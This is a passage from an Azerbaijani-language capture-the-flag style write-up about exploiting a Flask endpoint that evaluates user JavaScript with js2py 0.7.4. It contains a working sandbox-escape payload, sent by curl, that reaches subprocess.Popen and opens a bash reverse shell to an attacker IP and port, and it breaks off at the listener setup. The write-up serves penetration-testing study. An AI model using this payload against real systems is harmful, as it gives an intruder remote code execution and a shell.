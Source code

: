 ```python
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

* Göründüyü kimi, istifadəçi daxil etdiyi JavaScript kodu `js2py.eval_js` vasitəsilə serverdə icra olunur — bu `js2py` kitabxanasının imkanlarından asılı olaraq RCE (remote code execution) üçün zəiflik yarada bilər.
* `requirements.txt`-də `js2py==0.7.4` olduğu aşkarlandı — bunun üçün mövcud exploitlərə baxıldı (public CVE/exploit mövcudluğu araşdırıldı).

> Qeyd: `js2py`-nin bəzi versiyalarında Python obyektlərinə çıxış imkanı yaradaraq subprocess və s. kimi modulları işə salmağa imkan verən zərərli JS payloadları var.

---

## 3. `js2py` RCE zəifliyindən istifadə (exploit)

* Mövcud exploit nümunələrindən ilhamlanaraq öz custom payload yazıldı. Məqsəd `subprocess.Popen` istifadə edib əməliyyat sistemi komandası icra etmək idi.
* İstifadə olunan `curl` POST istəyi (payload JSON olaraq `/run_code` endpointinə göndərilir):

```bash
#!/bin/bash

LHOST="10.10.14.56"
LPORT="4444"

curl -s -X POST -H "Content-Type: application/json" \
-d "{\"code\": \"let cmd = \\\"bash -c 'bash -i >&/dev/tcp/10.10.14.56/4444 0>&1'\\\"; let hacked, bymarve, n11; let getattr, obj; hacked = Object.getOwnPropertyNames({}); bymarve = hacked.__getattribute__; n11 = bymarve(\\\"__getattribute__\\\"); obj = n11(\\\"__class__\\\").__base__; getattr = obj.__getattribute__; function findpopen(o) { let result; for(let i in o.__subclasses__()) { let item = o.__subclasses__()[i]; if(item.__module__ == \\\"subprocess\\\" && item.__name__ == \\\"Popen\\\") { return item; } if(item.__name__ != \\\"type\\\" && (result = findpopen(item))) { return result; } } } n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate(); n11\"}" \
http://10.10.11.82:8000/run_code > /dev/null &
```

* Payload JS vasitəsilə Python obyektlərindən `subprocess.Popen` tapılır və reverse shell üçün `bash -i >&/dev/tcp/...` əmri çalışdırılır.

---

## 4. Reverse shell əldə edilməsi

* Payload göndərilməzdən əvvəl hücumçu maşında `netcat` ilə dinləmə (listener) açıldı:

